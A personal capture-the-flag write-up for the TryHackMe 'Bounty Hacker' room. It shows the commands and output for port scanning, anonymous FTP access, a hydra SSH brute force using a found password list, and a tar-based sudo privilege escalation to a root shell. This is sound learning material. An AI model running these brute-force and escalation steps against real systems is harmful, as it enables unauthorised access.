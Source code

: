 ```yaml
---
title: Bounty Hacker CTF Writeup
tags:
  - tryhackme
  - ctf
  - easy
---
```

# [Bounty Hacker CTF](https://tryhackme.com/r/room/cowboyhacker) - TryHackMe

**Author:** [Sevuhl](https://tryhackme.com/p/Sevuhl)
**Date:** July 31, 2020
**Category:** General 
**Difficulty:** Easy 

---
## Challenge Description

The following was the given description of the CTF. 
"You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker! You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!" 
Kind of corny in my opinion but we move.
Basically we have to answer a few basic questions about the given machine. Which are:
- Find open ports on the machine
- Who wrote the task list?
- What service can you bruteforce with the text file found?
- What is the users password?
- user.txt
- root.txt

---

First I deployed the machine and ran a basic [[Nmap]] scan to find the open ports.

```
nmap 10.10.8.22 -vv -T4 
```

This is the result we got

```
PORT      STATE  SERVICE         REASON
20/tcp    closed ftp-data        conn-refused
21/tcp    open   ftp             syn-ack
22/tcp    open   ssh             syn-ack
80/tcp    open   http            syn-ack
990/tcp   closed ftps            conn-refused
40193/tcp closed unknown         conn-refused
40911/tcp closed unknown         conn-refused
41511/tcp closed unknown         conn-refused
42510/tcp closed caerpc          conn-refused
44176/tcp closed unknown         conn-refused
44442/tcp closed coldfusion-auth conn-refused
44443/tcp closed coldfusion-auth conn-refused
44501/tcp closed unknown         conn-refused
45100/tcp closed unknown         conn-refused
48080/tcp closed unknown         conn-refused
49152/tcp closed unknown         conn-refused
49153/tcp closed unknown         conn-refused
49154/tcp closed unknown         conn-refused
49155/tcp closed unknown         conn-refused
49156/tcp closed unknown         conn-refused
49157/tcp closed unknown         conn-refused
49158/tcp closed unknown         conn-refused
49159/tcp closed unknown         conn-refused
49160/tcp closed unknown         conn-refused
49161/tcp closed unknown         conn-refused
49163/tcp closed unknown         conn-refused
49165/tcp closed unknown         conn-refused
49167/tcp closed unknown         conn-refused
49175/tcp closed unknown         conn-refused
49176/tcp closed unknown         conn-refused
49400/tcp closed compaqdiag      conn-refused
49999/tcp closed unknown         conn-refused
50000/tcp closed ibm-db2         conn-refused
```

next we have a look at the website and also run [[Gobuster]] on it along the side with a common wordlist.

```
gobuster dir -u http://10.10.8.22 -w /usr/share/wordlists/dirb/common.txt
```

Well that did not reveal anything interesting. So After that I tried to anonymous login to ftp

```
ftp -h <ip-address>
```

I used the username `anonymous` without any password. This worked.
I wanted to list down all the files on the ftp-server but I could not use `ls` command. It kept giving me this odd response: 
```
229 Entering Extended Passive Mode (|||19499|)
```
I ran the `help` command to look for the available commands . There I found `dir` which chatgpt told me works similar to `ls -l` . I used it and got two files.
- locks.txt
- tasks.txt
I downloaded both files using the `get` command. looking into the tasks.txt file I found a username at the end 
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-***
```
This answered the first question.
Next looking at locks.txt I found a list of alphanumeric strings that looked like passwords. the SSH port (22) was also open. I had the Ip-address. I had the Ip-address I had the username and a list of passwords. I could try brute forcing it. This also answered one of our questions.

I used [[hydra]] to brute force SSH using the following command

```
hydra -l *** -P locks.txt ssh://10.10.8.22
```

I got the following response

```
[DATA] attacking ssh://10.10.8.22:22/
[22][ssh] host: 10.10.8.22   login: ***   password: *****************
1 of 1 target successfully completed, 1 valid password found
```

This answered one of our questions as well.

I used the password and the username to log in to SSH

I ran a simple `ls` command to find out what was inside and found the user.txt with a flag inside.
 to find the root.txt I tried to run the find command but was unable to find anything interesting without root privileges. I was unable to run using `sudo` as I did not have root permissions. I got stuck here and looked into another writeup where I found the `sudo -l` to list the allowed commands. It gave me the following response:
 ```
 User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

I had a quick look at [GTFO Bins](https://gtfobins.github.io/) to find this about `tar`

It can be used to break out from restricted environments by spawning an interactive system shell.

```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

After running this command I was able to run the following find command:

```
sudo find / -name root.txt 2>/dev/null
```

I got the root.txt and found the last flag. That finishes our CTF. 

## Conclusion
The CTF itself was pretty easy. Other than the last step for privilege escalation using `tar` I was able to figure out everything myself. 

> [!NOTE] NOTE
> This was my first Writeup to any CTF. I tried my best. It must definitely be lacking in many areas. Still I hope it helped. If you could provide me with some feedback that would be great. It would help me improve in the future. You can contact me through [LinkedIn](https://www.linkedin.com/in/mraum/). Thankyou!

